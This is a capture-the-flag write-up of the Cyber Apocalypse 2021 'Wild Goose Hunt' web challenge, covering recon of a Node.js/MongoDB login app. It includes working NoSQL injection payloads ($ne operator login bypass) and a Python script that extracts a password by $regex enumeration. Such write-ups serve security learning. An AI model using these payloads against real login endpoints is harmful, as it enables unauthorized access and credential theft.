

# Info

| #     |   |
|:--    |:--|
Type    |CTF / Web
Name    | **Cyber Apocalypse 2021 / Wild Goose Hunt**
Started | 2021/04/23
URLs    | https://ctf.hackthebox.eu/ctf/82
|       | https://ctftime.org/event/1304
Author	| **Asentinn** / OkabeRintaro
|		| [https://ctftime.org/team/152207](https://ctftime.org/team/152207)

# ToE

We are given the IP and a port:

* `206.189.121.131:31978`

And web application source code dump.

# Recon

Let's find what we can with `nmap`:

```
$ sudo nmap -A -p 31978 206.189.121.131        

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 09:09 CEST
Nmap scan report for 206.189.121.131
Host is up (0.0050s latency).

PORT      STATE SERVICE VERSION
31978/tcp open  http    Node.js (Express middleware)
|_http-title: Web Threat Blocked
|_http-trane-info: Problem with XML parsing of /evox/about
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: bridge
Running: Oracle Virtualbox
OS CPE: cpe:/o:oracle:virtualbox
OS details: Oracle Virtualbox
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.24 ms XXX.XXX.XXX.XXX
2   0.30 ms 206.189.121.131

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.59 seconds
```

Ok, Node.js application, nothing more. Let's explore the downloadable.

## Website



### /index.js
```js
const express    = require('express');
const app        = express();
const bodyParser = require('body-parser');
const routes     = require('./routes');
const mongoose   = require('mongoose');

mongoose.connect('mongodb://localhost:27017/heros', { useNewUrlParser: true , useUnifiedTopology: true });

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ 
	extended: true 
}));

app.use(express.static('static'));
app.set('view engine', 'pug');

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send({
        message: '404 page not found'
    });
});

app.listen(80, () => console.log('Listening on port 1337'));     
```

Right away we can see the MongoDB database reference with `mongoose` library.

### /routes/index.js
```js
const express = require('express');
const router  = express.Router();
const User    = require('../models/User');

router.get('/', (req, res) => {
	return res.render('index');
});

router.post('/api/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return User.find({ 
			username,
			password
		})
			.then((user) => {
				if (user.length == 1) {
					return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
				} else {
					return res.json({logged: 0, message: 'Login Failed'});
				}
			})
			.catch(() => res.json({ message: 'Something went wrong'}));
	}
	return res.json({ message: 'Invalid username or password'});
});

module.exports = router;      
```

It will be hard to do some NoSQL injection, because database is not queried directly - but with some `mongoose` models. For now let's remember that application uses `Schema.find` method to search in a user collection, giving `username` and `password` properties that are received in the POST request body. Also, worth remembering that API returns `{logged: int, message: string}` JSON.

### /models/User.js
```js
const mongoose = require('mongoose');
const Schema   = mongoose.Schema;

let User = new Schema({
	username: {
		type: String
	},
	password: {
		type: String
	}
}, {
	collection: 'users'
});

module.exports = mongoose.model('User', User);    
```

Boilerplate `User` model from `users` collection registration.

### /static/js/main.js
```js
const login    = document.getElementById('login');
const response = document.getElementById('response');

login.addEventListener('submit', e => {

	e.preventDefault();

	fetch('/api/login', {
		method: 'POST',
		body: new URLSearchParams(new FormData(e.target))
	})
        .then(resp => resp.json())
        .then(data => {
            if (data.logged) {
                login.remove();
                response.innerHTML = data.message;
            } else {
                response.innerHTML = data.message;
            }
	});
});    
```

Nothing interesting, because whatever is done to the request parameters that are read from the HTML element - we are going to bypass it querying the API directly.

### /views/index.pug
```pug
html
	head
		title HEROS
		meta(charset="utf-8")
		meta(name="viewport" content="width=device-width, initial-scale=1, user-scalable=no")
		link(rel="icon" href="/images/favicon.webp")
		link(href="/css/main.css" rel="stylesheet")

	body(class="is-preload landing")
	div(class="overlay")
	div(class="scanline")

	div(class="wrapper")
		div(class="content clearfix")
			header(class="site clearfix")
			div(class="col one")
				img(src="images/logo.gif" alt="HTB Industries" width="740" height="729" id="logo-v")
			div(class="col two")
				p HTB INDUSTRIES (TM)
				p HEURISTICALLY ENCRYPTED REAL-TIME OPERATING SYSTEM (HEROS)
				p ----------------------------------------
				p HEROS v 1.0.0
				p (C)2021 HTB INDUSTRIES
				p - CYBER APOCALYPSE -
		nav(class="site clear")
			ul
				li
					a(href="/" title="") Return Home
				li 
					a(href="#" title="") Our Clients
				li
					a(href="#" title="") Contact Us	
		p System Administrator Integrated Message System (SAIMS)
		p System Administrator (SYSADM) - Elliot Alderson

		p(class="clear")
		br
		div#login_system
			p Welcome to the System Administrator Integrated Message System (SAIMS). Fill out the fields below and press the SUBMIT button. The system administrator (SYSADM) will respond to your query after an appropriate amount of quiet contemplation. Thank you for contacting the System Administrator"s Office.
			br
			form(id="login" method="POST")
				label Username >>
				input(type="text" name="username" id="username")
				label Password >>
				input(type="text" name="password" id="password")
				br
				br
				br
				input(type="submit" id="submit" value="Submit")
			h2#response
```
	script(src="/js/main.js")   

That's just a Pug rendering engine. We are ready for the API enumeration to get the _Logged in_ response, get the session ID and use it in the browser to see what we can do from then.

## Enumeration

I'm assuming that `mongoose` library have some vulnerabilities over `Schema.find` method. We clearly cannot do some sneaky injections like `' || 1==1` so let's find out what we have here.

First things first, `nmap` that database port to see if by any change it is exposed to the network.

```
$ sudo nmap -A -p 27017 206.189.121.131

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 18:42 CEST
Nmap scan report for 206.189.121.131
Host is up (0.00055s latency).

PORT      STATE    SERVICE VERSION
27017/tcp filtered mongod
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.72 ms 10.0.2.2
2   0.73 ms 206.189.121.131

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds

```

Well, it is filtered, so I guess it is behind a firewall, but I'm taking my chances with Metasploit:

```
msf6 auxiliary(scanner/mongodb/mongodb_login) > run

[*] 206.189.121.131:27017 - Scanning IP: 206.189.121.131
[-] 206.189.121.131:27017 - Unable to connect: The connection timed out (206.189.121.131:27017).
[*] 206.189.121.131:27017 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Yeah, no success. Also, with `mongo` client

```
$ ./mongo 206.189.121.131

MongoDB shell version v4.4.5
connecting to: mongodb://206.189.121.131:27017/test?compressors=disabled&gssapiServiceName=mongodb
Error: couldn't connect to server 206.189.121.131:27017, connection attempt failed: SocketException: Error connecting to 206.189.121.131:27017 :: caused by :: Connection timed out :
connect@src/mongo/shell/mongo.js:374:17
@(connect):2:6
exception: connect failed
exiting with code 1
```

So going back to the `mongoose` and API we've got here. When searching for vulnerables in `Schema.find` I've come across some interesting readings (check _Additional readings_ section) that telling this, specifically:

```
To perform a successful MongoDB injection, it is enough if the attacker supplies the following malicious input data as a POST request:

username[$eq]=admin&password[$ne]=1

The [$ne] query operator means not equal. Therefore, the resulting query will find the first record in which the username is admin and the password is not 1. If this code is used for authentication, the attacker is logged in as the admin user.
```


But I don't know the username, so I should aim for the following request: `username[$eq]=admin&password[$ne]=`. I did a test login on the web browser to see in what form POST request is made. `application/x-www-form-urlencoded` it is.

### NoSQL Injection - `$ne` operator

I've tried many variations:

```
curl -H "application/x-www-form-urlencoded" -d "username=admin&password=admin" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "Content-Type: application/x-www-form-urlencoded" -H "Accept: application/json" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$eq]=admin&password[$ne]=foo" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$exists]=true&password[$exists]=true" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$exists]=true&password[$exists]=true" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username%5B$gt%5D=&password%5B$gt%5D=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" --data-urlencode "username[$eq]=" --data-urlencode "password[$ne]=" -v 206.189.121.131:31978/api/login
curl -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login

curl -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -d "username%5B%24ne%5D%3D%26password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login
curl -d "username%5B%24ne%5D%3D&password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login

	{"logged":0,"message":"Login Failed"} 

curl -H "application/json" -d "{'username': {'$gt': ''},'password': {'$gt': ''}}" -v 206.189.121.131:31978/api/login
curl -H "application/json" -d "{'username': {'$ne': null}, 'password': {'$ne': null} }" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" --data-urlencode "username[$eq]=admin&password[$ne]=foo" -v 206.189.121.131:31978/api/login
curl -d "username%5B$ne%5D=&password%5B$ne%5D=" -v 206.189.121.131:31978/api/login
curl -H "Content-Type: text/plain" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login

	{"message":"Invalid username or password"}   
```

I've come up with the idea to see how really the request looks - I must send the wrong data. Capturing the traffic with `wireshark` indeed shows, that requests I am sending via `curl` are truncated from `$ne`-like parameters. So I'm encoding the whole POST data in [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=dXNlcm5hbWVbJG5lXT0mcGFzc3dvcmRbJG5lXT0) and voila:

```
username[$ne]=&password[$ne]=
==
username%5B%24ne%5D%3D&password%5B%24ne%5D%3D
```

```
$ curl -d "username%5B%24ne%5D%3D&password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login

*   Trying 206.189.121.131:31978...
* Connected to 206.189.121.131 (206.189.121.131) port 31978 (#0)
> POST /api/login HTTP/1.1
> Host: 206.189.121.131:31978
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 out of 45 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 62
< ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
< Date: Fri, 23 Apr 2021 10:41:57 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
* Connection #0 to host 206.189.121.131 left intact
{"logged":1,"message":"Login Successful, welcome back admin."}   
```

Now I need to get a grab on the session cookie.. But there is none. At least I have a username: admin.

I've scratched my head and started digging again. And I've found something.

### NoSQL Injection - regex requests

Do you remember these movies when some hacker is cracking somebody's password - character by character?

If you thought this is only a movie trick to keep the viewers interested.. we're both mistaken. Apparently this is really a thing, and we are going to do this right now.

Regex queries/enumeration. Similar to the previous trick, but a bit smarter - instead of matching whatever password user can have - we are going to _reverse guess_ the password character by character.

```
user=admin&password[$regex]=.*
```

By making multiple requests we can match further and further by verifyng the response API is giving (remember `logged` property?). By assuming that the password is a flag we can make a successful login attempt with

```
user=admin&password[$regex]=CHTB.*
```

So let's write a script.

# Exploit

I'm borrowing the baseline script from [0daylabs](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100). After some modifications:

```python
# mongoregexdiscovery.py

import requests
import string
import json 

flag = "CHTB{"
url = "http://206.189.121.131:31978/api/login"

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + have to be avoided because we use regex
    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        rData = json.loads(r.content)
        if rData["logged"] == 1:
        	#we succesfully logged in
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid status

            if i == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```

Fire and forget. Sit back and feel like a movie hacker :)

# Flag

> **CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}**

# Additional readings

* [NoSQL injection cheatsheet](https://book.hacktricks.xyz/pentesting-web/nosql-injection#extract-data-information)
* [NoSQL Injections and How to Avoid Them](https://www.acunetix.com/blog/web-security-zone/nosql-injections/)
* [MongoDB - Extracting data (admin password) using NoSQL Injection - MMACTF 2016 Web 100 writeup](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100)
* [What is NoSQL Injection and How Can You Prevent It?](https://www.netsparker.com/blog/web-security/what-is-nosql-injection/)